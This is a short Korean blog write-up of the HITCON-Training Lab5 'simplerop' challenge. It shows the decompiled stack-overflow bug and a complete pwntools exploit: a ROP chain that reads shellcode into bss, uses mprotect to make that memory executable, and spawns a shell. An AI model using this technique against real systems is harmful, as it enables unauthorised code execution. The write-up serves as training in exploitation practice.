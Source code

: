 ```yaml
---
title: "[HITCON-Training]Lab5"
date: 2019-11-17
tags: [hitcon]
categories: [HITCON-Training]
---
```


statically linked, not stripped된 파일이고 ROP문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h]
 
  puts("ROP is easy is'nt it ?");
  printf("Your input :");
  fflush(stdout);
  return read(0, &v4, 100);
}
```

mprotect함수로 원하는 주소에 권한을 부여하고 shellcode를 넣고 실행해주면 된다.

```python
from pwn import *
 
context.arch = 'i386'
 
e = ELF('./simplerop')
p = process('./simplerop')
r = ROP(e)
 
mprotect = e.symbols['mprotect']
bss = 0x080EB000
shellcode = asm(shellcraft.i386.sh())
print shellcode
 
pay = 'A'*(0x1c+4)
r.read(0,bss,0x100)
r.mprotect(bss,0x2000,0x7)
r.raw(bss)
pay += r.chain()
 
p.sendlineafter(':',pay)

p.sendline(shellcode)
 
p.interactive()
```

